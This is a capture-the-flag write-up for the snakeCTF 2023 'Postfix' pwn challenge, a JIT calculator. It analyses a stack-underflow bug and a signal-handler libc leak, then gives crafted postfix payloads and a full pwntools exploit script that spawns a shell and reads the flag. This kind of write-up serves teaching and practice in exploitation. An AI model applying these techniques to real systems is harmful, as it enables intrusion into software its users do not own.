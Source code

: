 # Postfix [_snakeCTF 2023_]

**Category**: pwn


## Description

>Maths is hard so I made this super-fast JIT-powered calculator. You can even define funcions! It has many security features, I bet it's super safe!
>
>*Note: A VM is provided to help you replicate the remote setup. Keep in mind that this is **NOT** a kernel/microarch pwn!*

## Analysis

### Checksec
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```
As it can be seen, the binary has all the common mitigations enabled.

### Seccomp
```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0001: 0x25 0x00 0x01 0x00006000  if (A <= 0x6000) goto 0003
 0002: 0x25 0x00 0x01 0x00007000  if (A <= 0x7000) goto 0004
 0003: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0004: 0x06 0x00 0x00 0x00000000  return KILL
```

A simple seccomp filter is also present and it forbids syscalls coming from IPs in the range 0x600000000000 - 0x700000000000.

### Reversing

The binary allows you to define functions with up to one variable in postfix notation. The functions, after being parsed, are JIT-compiled in native x86 code. They can then be called, eventually providing the value of the variable.

Most of the logic happens during the parsing and compilation of the postfix expression.
This starts with the `parse(expr_stack_t *out_stack, char *input, char **parsed)` function: the string is split into tokens, which then get pushed onto an `expr_stack_t` structure as a pair of value and type. 

When an operator is pushed (through the `push_op` function) it gets optimized away if the two previous tokens are constants, since the result can be computed at parse-time as it does not depend on other operations or variables.

The `expr_stack_t` is then passed to `jit_expr`, which does the actual translation to x86 code. 
A prologue which zeroes all registers and migrates to a separate stack (`jit_stk`) is generated and it looks like this:
```
xor eax, eax ; xor all regs except from rdi and rsp
xor ebx, ebx
...
wrgsbase rsp ; save rsp for later
mov rsp, jit_stk ; migrate to jit_stk
call actual_jit_code ; call jit code
rdgsbase rsp ; restore rsp
ret
actual_jit_code:
...
```
The stack is then iterated:
- known-values become push operations through the `opt_push` function, which emits different instructions depending on the size of the value
- variables become `push rdi` instructions (as the variable is passed through `rdi`)
- operators are translated roughly to `pop rbx; pop rax; add/sub/imul/idiv ...; push rax`

The `opt_push` function also applies constant-blinding when a 32-bit or 64-bit constant is pushed as a mitigation against JIT-sprays. This is done by using `val ^ rnd` where `val` is the actual value and `rnd` is a random value which gets generated by the function. A xor operation is then emitted to decrypt this constant at runtime and push it onto the stack.
The generated code might look like this:
```
; opt_push(0xAAAAAAAA)

mov rax, 0xB00CE592  ; = 0xAAAAAAAA ^ 0x1AA64F38
xor rax, 0x1AA64F38      
push rax             ; = 0xAAAAAAAA    
```

The final result is then popped through `pop rax`.

As a final note, the JIT code pages are allocated through `jit_init` at random offsets in the region 0x600000000000-0x700000000000, which is the same range forbidden by the seccomp filter. The JIT stack is allocated by `jit_stk_init` at a random offset in the region 0x300000000000-0x400000000000.

## Vulnerabilities

### Relative RIP control inside the JIT code

The main vulnerability is in the `push_op` function: it should require two numbers on the stack to appply the operator, but the only check is for the stack containing at least two elements, which might not be both numbers. This can allow an attacker to perform a stack underflow, which, using the JIT operations, makes it possible to add arbitrary offsets to the return address of the JIT prologue. 

An example might be `0 x + + 0`, which will add `x` to the return address. The final constant is required as the code inside `parse` keeps a variable named `count` which keeps track of the amount of elements on the stack at runtime and is checked at the end of the function. If this value is different from 1 (which should be the element returned by the function), the `parse` function will fail.

### Information leak through the signal handler stack frame

When a division by zero occurs during the JIT execution, a SIGFPE signal is raised, and a registered sighandler is called. The handler will exit gracefully from the JIT area (through a siglongjmp) and inform the user that an error occurred without crashing the program.  Since the sighandler isn't registered with the `SA_ONSTACK` flag, when it gets invoked during JIT execution it will just use the JIT stack, spilling its stackframe onto it. This can be used to leak various information such as a libc address. It must be kept in mind that the signal handler stack frame has a variable size, since it depends on the size of the `XSAVE` area, which depends on the enabled CPU features (and that's why the challenge was run under QEMU). This should not be a problem since the binary prints CPUID information at the start, including the maximum and actual size of this area.

## Exploitation

We can first trigger the leak by doing a division by zero. To get it as close as possible we can abuse the stack underflow caused by the wrong check in `push_op`.
A payload such as `0 x * * * * / 0 0 0 0` should do the trick. We can play with the number of `*` and `0` (which must anyway be equal to match the `count == 1` constaint) to lower the signal handler stack frame.

Since we can't really pop values from the stack arbitrarily, we'll have to abuse the relative rip control to try and move the stack pointer near a libc leak. We can then add a relative offset to this leak to get a one-gadget, which will give us a shell when the code returns. We can abuse the fact that 8-bit and 16-bit values are not blinded to try and encode instructions. Furthermore, 16-bit values still use a 32-bit `push` instruction, causing them to be sign-extended. I found the `enter` instruction to be particularly useful, since it allows us to move the stack pointer and we can encode it by pushing `0xXXC8` where XX is the amount of bytes which will be added to the stack pointer. As long as XX is less than `0x7F`, the value will be zero-extended and cause the encoding of a `enter XX, 0` instruction, which will decrement the stack pointer by `XX`.

Using this we can reach a libc address and change it to a one-gadget. We can then push one value (the JIT will need to pop a return value) and at the `ret` instruction we'll get a shell. A payload for this might be `x 0 * x - {rsp_offset << 8 | 0xc8} - {SPRAYED_INSN_OFFSET} + + {rsp_offset << 8 | 0xc8} x + + 0`, where `x` is the value to be added to the libc pointer.

## Exploit

```
#!/usr/bin/env python3

from pwn import *

HOST = args.HOST if args.HOST else "localhost"
PORT = args.PORT if args.PORT else 1337

def conn():
    r = remote(HOST, PORT)
    return r

def create_func(func_id, expr):
    r.sendafter(b"> ", b"c\n")
    r.sendafter(b"id: ", func_id.encode() + b"\n")
    r.sendafter(b">>> ", expr.encode() + b"\n")

def execute_func(func_id, arg, get_res=False):
    r.sendafter(b"> ", b"x\n")
    r.sendafter(b"id: ", func_id.encode() + b"\n")
    r.sendafter(b": ", arg.encode() + b"\n")
    if get_res:
        r.recvuntil("result: ")
        return int(r.recvline().decode().strip())

def main():
    global r
    r = conn()

    r.recvuntil(b"supported features: " + context.newline)
    r.recvlines(4)
    xsave_size = int(r.recvline().split(b" ")[1], 16)
    log.info(f"xsave_max_size: {hex(xsave_size)}")

    # 0xebcf8 execve("/bin/sh", rsi, rdx)
    # constraints:
    #     address rbp-0x78 is writable
    #     [rsi] == NULL || rsi == NULL
    #     [rdx] == NULL || rdx == NULL

    CODE_OFFSET = 49

    trigger_sighandler = "0 x " + ("* " * (xsave_size//8 - 7)) + "/ " + ("0 " * (xsave_size//8 - 7))
    payload = f"x 0 * x - {0x60c8} - {CODE_OFFSET} + + {0x60c8} x + + 0"

    create_func("DIV0", trigger_sighandler)
    execute_func("DIV0", "0")

    # <__execvpe+1144>:	lea    rdi,[rip+0xec999]
    one_gadget_addr = 0xebcf8
    log.info(f"one_gadget_addr: {hex(one_gadget_addr)}")

    # <_IO_2_1_stdin_+131>:	0x00000000
    sighandler_leak_addr = 0x219b23
    log.info(f"sighandler_leak_addr: {hex(sighandler_leak_addr)}")

    offset = sighandler_leak_addr - one_gadget_addr
    log.info(f"offset: {hex(offset)}")

    create_func("PWN", payload)
    execute_func("PWN", str(-offset))

    r.sendline(b"cat flag.txt")
    log.info(r.recvregex(b"snakeCTF{.*}", timeout=5).strip().split(context.newline)[-1].decode())
    r.close()

if __name__ == "__main__":
    main()
```

